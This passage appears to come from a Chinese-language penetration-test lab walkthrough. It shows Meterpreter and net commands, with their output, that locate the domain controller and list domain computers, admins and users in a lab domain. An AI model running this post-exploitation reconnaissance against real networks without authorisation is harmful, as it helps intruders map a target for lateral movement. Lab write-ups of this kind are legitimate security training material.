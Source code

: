 定位域控: `run post/windows/gather/enum_domain`

```c
meterpreter > run post/windows/gather/enum_domain

[+] Domain FQDN: de1ay.com
[+] Domain NetBIOS Name: DE1AY
[+] Domain Controller: DC.de1ay.com (IP: 10.10.10.10)
```

或者还可以使用 `net time /domain`

查看域内成员： `run post/windows/gather/enum_ad_computers` 

```c
meterpreter > run post/windows/gather/enum_ad_computers 

Domain Computers
================

 dNSHostName    distinguishedName                            description  operatingSystem                  operatingSystemServicePack
 -----------    -----------------                            -----------  ---------------                  --------------------------
 DC.de1ay.com   CN=DC,OU=Domain Controllers,DC=de1ay,DC=com               Windows Server 2012 R2 Standard
 WEB.de1ay.com  CN=WEB,CN=Computers,DC=de1ay,DC=com
```

查看域管 ：`net group "domain admins" /domain`

```c
C:\Windows\system32>net group "domain admins" /domain
net group "domain admins" /domain
The request will be processed at a domain controller for domain de1ay.com.

Group name     Domain Admins
Comment        ����������Ա

Members

-------------------------------------------------------------------------------
Administrator            
The command completed successfully.
```

查询域内用户： `net user /domain`

```c
C:\Windows\system32>net user /domain
net user /domain
The request will be processed at a domain controller for domain de1ay.com.

User accounts for \\DC.de1ay.com

-------------------------------------------------------------------------------
Administrator            de1ay                    Guest                    
krbtgt                   mssql                    
The command completed with one or more errors.
```
